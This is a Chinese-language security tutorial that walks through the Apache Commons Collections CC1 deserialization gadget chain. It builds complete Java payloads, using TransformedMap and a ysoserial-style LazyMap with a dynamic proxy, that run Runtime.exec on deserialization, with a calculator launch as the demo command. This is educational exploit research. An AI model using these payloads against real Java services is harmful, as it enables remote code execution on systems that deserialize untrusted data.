

CC1链分析 前言 Apache Commons Collections是一个第三方的基础类库，提供了很多强有力的数据结构类型并且实现了各种集合工具类，可以说是apache开源项目的重要组件。在Java 8u71以后的版本中修改了触发的类，从而不再支持该利用链的使用。
声明：**文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。
8u65 jdk的Java文件环境搭建 为什么做这个步骤？
1 因为在导入的jdk的包里面都是编译后的.class文件，当我们在分析调用链或者搜索的时候无法搜索到jdk里面的.class的内容。有了这个步骤，我们可以搜索和jdk源码一样的Java代码，更有助于我们分析。
下载地址：https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/b3ce30db46ab
我们下载一个zip压缩的
把sun文件夹拷贝到我们的idea项目中；路径：jdk-b3ce30db46ab/src/share/classes/sun
collections-3.2.1下载
https://github.com/apache/commons-collections/releases/tag/collections-3.2.1
解压后把源码放到idea中
Java常用的执行命令的方式 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 package com.garck3h.ccChain;import java.io.IOException;public class TestExe { public static void main (String[] args) { try { Runtime.getRuntime().exec("open -a Calculator.app" ); } catch (IOException e) { e.printStackTrace(); } } }
通过反射执行命令的方式 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 package com.garck3h.ccChain;import java.io.IOException;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;public class TestExe { public static void main (String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException { Runtime runtime = Runtime.getRuntime(); Class c = Runtime.class; Method method = c.getDeclaredMethod("exec" , String.class); method.setAccessible(true ); method.invoke(runtime, "open -a Calculator.app" ); } }
分析CC1 触发点 根据new Transformer查看到其接口
我们跟进去看看，发现有一个InvokerTransformer的实现类。
在这个InvokerTransformer实现类实现了transform接口。其代码如下；其大概的意思是传入一个对象，函数通过反射的方式调用一个指定类（cls）的方法（iMethodName），并将指定的参数（iArgs）传递给方法进行执行，最终得到方法的返回值。
我们来看一下InvokerTransformer的构造函数。该构造函数的参数有三个，其中methodName是一个字符串类型的变量，表示所要调用的方法名；paramTypes是一个Class类型数组，表示所要调用的方法的参数类型列表；args是一个Object类型数组，表示所要传递给方法的参数值列表。
下面我们实现调用上述的InvokerTransformer.transform来进行一个简单的弹计算器的操作。
1 2 3 4 Runtime runtime = Runtime.getRuntime();InvokerTransformer invokerTransformer = new InvokerTransformer ("exec" , new Class []{String.class} , new Object []{"open -a Calculator.app" }); invokerTransformer.transform(runtime);
成功执行了打开计算器的命令
至此我们只是找到了一个能够执行命令的方法，入口还没找到。
既然InvokerTransformer是Transformer接口的其中一个实现类的方法，那么我们来看看哪里能够调用到Transformer接口
此时的链子是：
1 2 3 4 5 6 7 8 9 InvokerTransformer.transform() Method.invoke() Class.getMethod() InvokerTransformer.transform() Method.invoke() Runtime.getRuntime() InvokerTransformer.transform() Method.invoke() Runtime.exec()
找调用 transform 方法的地方（alt+F7）；我们来重点关注下面的这三个方法。
我们来看一下transformKey；大概的意思是接收一个对象作为参数，如果 keyTransformer 不为 null，则调用 keyTransformer.transform(object) 对该对象进行转换操作后返回；否则直接将该对象返回。（此处的transform(object)正是我们想要的）
我们继续看，怎么样才能调用transformKey。查看调用链，发现有两个调用到它；但很遗憾这个transformMap不能直接调用；因为它使用了protected 修饰，只能被当前类及其子类访问。
我们来看put这个方法；传入了两个对象，分别赋值转换之后进行返回，期间调用到了我们上述的transformKey方法，是我们想要的方法。
如此一来我们可以实例化一个TransformedMap对象，然后我们再调用put方法即可。那么怎么才能实例化一个TransformedMap对象呢？
我们传统的想法就是直接new一个，但是这里的TransformedMap的构造方法使用了protected 修饰。所以只能考虑其他方法了。
于是在decorate和decorateTransform方法里面有实例化TransformedMap的操作。
我们直接看decorate，这个静态方法接收三个参数：一个 Map 对象（即要被转换的原始 Map，可以为空），以及两个 Transformer 对象。
好了，下面我们开始构造，它要什么我们就给什么。要一个map对象，我们直接创建一个hashmap，然后给它传进去。keyTransformer我们传一个实例化的InvokerTransformer对象,这里是exec；然后我们再调用put方法把Runtime实例化的对象传给它，至于value就随意给个值就行。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 package com.garck3h.ccChain;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.HashedMap;import org.apache.commons.collections.map.TransformedMap;import java.util.Map;public class TestInvokerTransformer { Runtime runtime = Runtime.getRuntime(); InvokerTransformer exec = new InvokerTransformer ("exec" , new Class []{String.class}, new Object []{"open -a Calculator.app" }); HashedMap hashedMap = new HashedMap (); System.out.println(hashedMap.getClass().getName()); Map decorate = TransformedMap.decorate(hashedMap, exec, null ); decorate.put(runtime,"value" ); } }
测试成功
此时的链子是
1 2 3 4 5 6 7 8 9 10 11 TransformedMap.decorate() put() InvokerTransformer.transform() Method.invoke() Class.getMethod() InvokerTransformer.transform() Method.invoke() Runtime.getRuntime() InvokerTransformer.transform() Method.invoke() Runtime.exec()
此时就会遇到一个问题，当我查找哪里在调用put的时候，发现有很多方法，所以不得不放弃这条路，寻找其他的。
我们再仔细看，在checkSetValue方法里面也调用了transform。
然后在org.apache.commons.collections.map的MapEntry实现类的setValue方法中调用了checkSetValue。
setValue(Object value) 方法用于将键-值映射中给定键所对应的值替换成指定的值，并返回原来该键所对应的值。
下一步就是要解决怎么实现调用setValue方法。
使用 Map.Entry 的方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 package com.garck3h.ccChain;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.HashedMap;import org.apache.commons.collections.map.TransformedMap;import java.util.Map;public class TestInvokerTransformer { public static void main (String[] args) { Runtime runtime = Runtime.getRuntime(); InvokerTransformer exec = new InvokerTransformer ("exec" , new Class []{String.class}, new Object []{"open -a Calculator.app" }); HashedMap hashedMap = new HashedMap (); hashedMap.put("key" ,"value" ); Map<Object,Object> decorate = TransformedMap.decorate(hashedMap, null ,exec); for (Map.Entry entry:decorate.entrySet()){ entry.setValue(runtime); } } }
测试成功
AnnotationInvocationHandler 寻找一个与上面类似的，遍历map的方法
alt+f7查看调用关系，发现有一个类AnnotationInvocationHandler的readObject方法里面有调用到setValue
这里首先调用默认的readObject方法进行反序列化操作，将对象还原为字节序列。然后遍历成员值Map，逐个检查是否存在需要转型的情况。
紧接着我们去看它的构造函数；这是个动态代理类，首先呢是传入一个需要动态代理的类，然后传入一个map，
我们通过反射去调用
1 2 3 4 Class<?> Clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor<?> declaredConstructor = Clazz.getDeclaredConstructor(Class.class, Map.class); declaredConstructor.setAccessible(true ); Object o = declaredConstructor.newInstance(Override.class, decorate);
runtime序列化和反序列化 到这之后，我们去看一下runtime，发先它是没有继承Serializable，所以它不能够直接进行序列化和反序列化。
让runtime能够进行序列化和反序列化，我们可以通过反射去创建和调用这个类
1 2 3 4 5 Class clazz = Runtime.class;Method getRuntime = clazz.getMethod("getRuntime" , null );Runtime invoke = (Runtime) getRuntime.invoke(null , null );Method execz = clazz.getMethod("exec" , String.class);execz.invoke(invoke,"open -a Calculator.app" );
修改成使用invokerTransformer.transform来调用的形式
1 2 3 4 5 Method getRuntime = (Method) new InvokerTransformer ("getMethod" , new Class []{String.class,Class[].class}, new Object []{"getRuntime" , null }).transform(Runtime.class);Runtime invoke = (Runtime) new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }).transform(getRuntime);new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"open -a Calculator.app" }).transform(invoke);
至此，Runtime 的序列化和反序列化问题解决了。
由于它是 transform 的循环调用的。我们在org.apache.commons.collections.functors的 ChainedTransformer中发现一段代码可以满足我们循环调用。
改写成调用ChainedTransformer的transform进行循环调用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 package com.garck3h.ccChain;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import java.io.IOException;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;public class TestExe { public static void main (String[] args) { Class clazz = Runtime.class; Transformer[] transformers = new Transformer []{ new InvokerTransformer ("getMethod" ,new Class []{String.class,Class[].class},new Object []{"getRuntime" ,null }), new InvokerTransformer ("invoke" ,new Class []{Object.class,Object[].class},new Object []{null ,null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"open -a Calculator.app" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); chainedTransformer.transform(clazz); } }
我们来看到ConstantTransformer这个类是继承了Transformer和反序列化接口的
它的构造方法和transform方法
于是我们可以构造成下面的这个形式
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 package com.garck3h.ccChain;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import java.io.IOException;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;public class TestExe { public static void main (String[] args) { Transformer[] transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" ,new Class []{String.class,Class[].class},new Object []{"getRuntime" ,null }), new InvokerTransformer ("invoke" ,new Class []{Object.class,Object[].class},new Object []{null ,null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"open -a Calculator.app" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); chainedTransformer.transform(Runtime.class); } }
绕过memberType != null 我们继续来测试
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 package com.garck3h.ccChain;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.HashedMap;import org.apache.commons.collections.map.TransformedMap;import java.io.*;import java.lang.annotation.Target;import java.lang.reflect.Constructor;import java.lang.reflect.Method;import java.util.HashMap;import java.util.Map;public class TestInvokerTransformer { public static void main (String[] args) throws Exception { Transformer[] transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" ,new Class []{String.class,Class[].class},new Object []{"getRuntime" ,null }), new InvokerTransformer ("invoke" ,new Class []{Object.class,Object[].class},new Object []{null ,null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"open -a Calculator.app" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashedMap hashedMap = new HashedMap (); hashedMap.put("key" ,"value" ); Map<Object,Object> decorate = TransformedMap.decorate(hashedMap, null ,chainedTransformer); Class<?> Clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor<?> declaredConstructor = Clazz.getDeclaredConstructor(Class.class, Map.class); declaredConstructor.setAccessible(true ); Object o = declaredConstructor.newInstance(Target.class,decorate); } }
发现执行之后没有进入到if里面 if (memberType != null)
分析发现 在memberValue 变量中获取键名 name 的值，用于与 memberTypes 中存储的成员类型进行匹配。然后使用 memberType 变量来判断成员类型是否存在。那么我们只需要传入的参数在它的成员类型里面，条件就可以成立了。

hashedMap.put(“value”,”value”)；成功进入到setvalue里面
最后我们得到一个完整的demo
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 package com.garck3h.ccChain;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.HashedMap;import org.apache.commons.collections.map.TransformedMap;import java.io.*;import java.lang.annotation.Target;import java.lang.reflect.Constructor;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;import java.util.Map;public class TestExe { public static void main (String[] args) throws Exception{ Transformer[] transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" ,new Class []{String.class,Class[].class},new Object []{"getRuntime" ,null }), new InvokerTransformer ("invoke" ,new Class []{Object.class,Object[].class},new Object []{null ,null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"open -a Calculator.app" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashedMap hashedMap = new HashedMap (); hashedMap.put("value" ,"value" ); Map<Object,Object> decorate = TransformedMap.decorate(hashedMap, null ,chainedTransformer); Class<?> Clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor<?> declaredConstructor = Clazz.getDeclaredConstructor(Class.class, Map.class); declaredConstructor.setAccessible(true ); Object o = declaredConstructor.newInstance(Target.class,decorate); serialize(o); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("ser.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("ser.bin" )); Object obj = inputStream.readObject(); } }
完整利用链 得到了最终的利用链
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 cc1 chain: ObjectInputStream.readObject() AnnotationInvocationHandler.readObject() TransformedMap.decorate() Map(Proxy).entrySet() MapEntry.setValue() TransformedMap.checkSetValue() ChainedTransformer.transform() ConstantTransformer.transform() InvokerTransformer.transform() Method.invoke() Class.getMethod() InvokerTransformer.transform() Method.invoke() Runtime.getRuntime() InvokerTransformer.transform() Method.invoke() Runtime.exec()
Ysoserial 中的 LazyMap 我们再来看一下ysoserial 中的 LazyMap
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 cc1 chain: ObjectInputStream.readObject() AnnotationInvocationHandler.readObject() Map(Proxy).entrySet() AnnotationInvocationHandler.invoke() LazyMap.get() ChainedTransformer.transform() ConstantTransformer.transform() InvokerTransformer.transform() Method.invoke() Class.getMethod() InvokerTransformer.transform() Method.invoke() Runtime.getRuntime() InvokerTransformer.transform() Method.invoke() Runtime.exec()
与上述的利用链相比，两者相差不大，这里是调用了LazyMap的get，而我们上面是调用的TransformedMap
我们看到在AnnotationInvocationHandler.invoke () 中有调用到LazyMap的get；且是可控的。
如此一来，我们只需要一个动态代理就可以调用到invoke；当进入invoke方法之后。期间还需要一个无参调用才能绕过中间那个异常达到get方法
然而在AnnotationinvocationHandler 类的 readObject 方法里有个无参方法
于是在外面嵌套一层该类的构造方法，得到如下的payload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 package com.garck3h.ccChain;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.HashedMap;import org.apache.commons.collections.map.LazyMap;import org.apache.commons.collections.map.TransformedMap;import java.io.*;import java.lang.annotation.Target;import java.lang.reflect.*;import java.util.Map;public class TestExe { public static void main (String[] args) throws Exception{ Transformer[] transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" ,new Class []{String.class,Class[].class},new Object []{"getRuntime" ,null }), new InvokerTransformer ("invoke" ,new Class []{Object.class,Object[].class},new Object []{null ,null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"open -a Calculator.app" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashedMap hashedMap = new HashedMap (); Map<Object, Object> decorate = LazyMap.decorate(hashedMap, chainedTransformer); Class<?> Clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor<?> constructor = Clazz.getDeclaredConstructor(Class.class, Map.class); constructor.setAccessible(true ); Object o = constructor.newInstance(Override.class, decorate); Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class []{Map.class}, (InvocationHandler) o); Object obj= constructor.newInstance(Target.class,mapProxy); serialize(obj); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("ser.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("ser.bin" )); Object obj = inputStream.readObject(); } }
参考 1.Java安全漫谈 - 09.反序列化篇(3)
2.http://blog.m1kael.cn/index.php/archives/492/
3.https://xz.aliyun.com/t/12019#toc-4